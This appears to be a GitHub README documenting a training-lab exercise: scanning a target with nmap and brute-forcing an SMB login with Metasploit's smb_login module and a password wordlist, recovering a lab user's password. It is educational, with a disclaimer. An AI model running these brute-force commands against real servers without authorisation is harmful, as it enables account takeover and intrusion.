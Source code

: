 <h1>SMB Dictionary Attack</h1>


<h2>Description</h2>
This project consists of using known wordlists to conduct a dictionary attack on an SMB server. 
<br />
<br />
- A wordlist file is a list on common or bad passwords which can be used for brute force or dictionary attacks. A famous wordlist is the rockyou.txt wordlist, which contains over 14 million passwords that were leaked in past data breaches. I will provide examples of using different Kali Linux tools to conduct dictionary attacks. 
<br />
<br />

Disclaimer: The Kali Linux user machine and target machine used in this project was provided to me by INE for educational purposes. The misuse of the information in this project lab can result in criminal charges brought against the individual/individuals in question.
<br />


<h2>Languages and Utilities Used</h2>

- <b>nmap</b>
- <b>msfconsole</b>
- <b>hydra</b>
- <b>smbmap</b>
- <b>smbclient</b>


<h2>Environments Used </h2>

- <b>Kali Linux</b>

<h2>Project walk-through:</h2>

<p align="left">
Ping target machine to verify that it is active: <br/>
<br/>
- INE has provided me with Kali Linux GUI & target machine (target machine is one ip address above from mine).  I will run and ip a command to verify my own ip address. 
<br/>
<br/>
Commands: ip a
<br/>
ping 192.86.121.3
<br/>
<br/>
<img src="https://i.imgur.com/lj1us1d.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Run nmap scan to look for open ports: <br/>
<br/>
- We can see that port 445, also known as SMB, is open. 
<br/>
<br/>
Command: nmap 192.86.121.3
<br/>
<br/>
<img src="https://i.imgur.com/E5yXhP6.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Use the msfconsole tool (metasploit) to run a login bruteforce attack on the SMB server: <br/>
<br/>
- In this scenario, we already know that there is a user Jane so we will try to use the metasploit smb_login module with a password wordlist to try and find Jane's password. 
<br/>
- We can see that by using a password wordlist, we were able to find a match for user Jane's password, which is abc123. This is one reason why it is bad practice to use small straightforward passwords.
<br/>
<br/>
Commands: msfconsole
<br/>
use auxiliary/scanner/smb/smb_login
<br/>
options
<br/>
set rhosts 192.86.121.3
<br/>
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
<br/>
set smbuser jane
<br/>
exploit
<br/>
<br/>
<img src="https://i.imgur.com/dOAXa38.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<img src="https://i.imgur.com/MSLfZtm.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<img src="https://i.imgur.com/Oj2hjIe.png" height="80%" width="80%" alt="SMB Nmap Scripting" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />




</p>
